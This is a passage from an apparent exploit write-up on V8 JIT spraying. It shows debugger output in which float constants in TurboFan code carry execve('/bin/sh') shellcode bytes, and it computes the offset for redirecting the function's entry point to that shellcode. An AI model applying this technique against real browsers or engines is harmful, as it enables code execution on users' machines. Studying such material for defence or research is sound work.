 ```js
%OptimizeFunctionOnNextCall(foo);
foo();

%DebugPrint(foo);
%SystemBreak();

foo();
```

Using gdb to print out the debug information for the code object, we can then disassemble the JITed `foo` function. The array of floats has been converted into `movabs r10, <val>` instructions, meaning the shellcode we need has been written to executable memory.
```
pwndbg> job 0x02930019a215
0x2930019a215: [CodeDataContainer] in OldSpace
 - map: 0x029300002a71 <Map[28](CODE_DATA_CONTAINER_TYPE)>
 - kind: TURBOFAN
 - is_off_heap_trampoline: 0
 - code: 0x562f80004001 <Code TURBOFAN>
 - code_entry_point: 0x562f80004040
 - kind_specific_flags: 4
pwndbg> x/40i 0x562f80004040
...
   0x562f800040a7:	movabs r10,0xceb909090583b6a
   0x562f800040b1:	vmovq  xmm0,r10
   0x562f800040b6:	vmovsd QWORD PTR [rcx+0x7],xmm0
   0x562f800040bb:	movabs r10,0xceb900068732f68
   0x562f800040c5:	vmovq  xmm0,r10
   0x562f800040ca:	vmovsd QWORD PTR [rcx+0xf],xmm0
   0x562f800040cf:	movabs r10,0xceb906e69622f68
   0x562f800040d9:	vmovq  xmm0,r10
   0x562f800040de:	vmovsd QWORD PTR [rcx+0x17],xmm0
   0x562f800040e3:	movabs r10,0xceb909090e78948
...
```

The below gdb output shows the start of the shellcode. All that's necessary at this point is to find the offset from the original function entry point to the start of our shellcode.

This is needed as we want to overwrite the pointer of the original entry point with a pointer to our shellcode. This will allow us to redirect process execution to our shellcode.
```
pwndbg> x/6i 0x562f800040a7+2
   0x562f800040a9:	push   0x3b
   0x562f800040ab:	pop    rax
   0x562f800040ac:	nop
   0x562f800040ad:	nop
   0x562f800040ae:	nop
   0x562f800040af:	jmp    0x562f800040bd
pwndbg> p/x (0x562f800040a7+2)-0x562f80004040
$1 = 0x69
```
